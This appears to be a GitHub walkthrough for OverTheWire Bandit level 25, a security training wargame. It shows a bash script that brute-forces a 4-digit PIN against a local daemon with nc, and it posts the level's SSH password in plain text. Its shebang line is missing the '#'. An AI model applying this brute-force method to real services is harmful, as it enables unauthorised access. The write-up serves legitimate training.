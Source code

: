 # Bandit Level 25
## Part I

```bash
    # We have to bruteforce the input by creating a script that try a range (0-10000) of numbers
    mkdir /tmp/reda4
    cd /tmp/reda4
    vim sdscript.sh
```
```bash
    !/bin/bash
    for i in {0000..9999}
    do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
    done
    # [ESC] then :wq to save and quit
```
```bash
    chmod +x sdscript.sh
    ./sdscript.sh > range_numbers
    nc localhost 30002 < range_numbers
```

And copy the text to your clipboard (or try [the scp Method](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Bandit/Bandit0-9/Level1.md#part-i))
## Part II

The ***host*** to which you need to connect is *bandit.labs.overthewire.org*, on ***port*** 2220. The ***username*** is *bandit25* and the ***password*** is the text from your clipboard [Part 1](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Bandit/Bnadit21-34/Level25.md#part-i). 

1. Enter the following command:  

```bash
	ssh bandit.labs.overthewire.org -p 2220 -l bandit25
	# OR ssh bandit25@bandit.labs.overthewire.org -p 2220
	# password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
2. Enter the password as shown in the comment of bash.
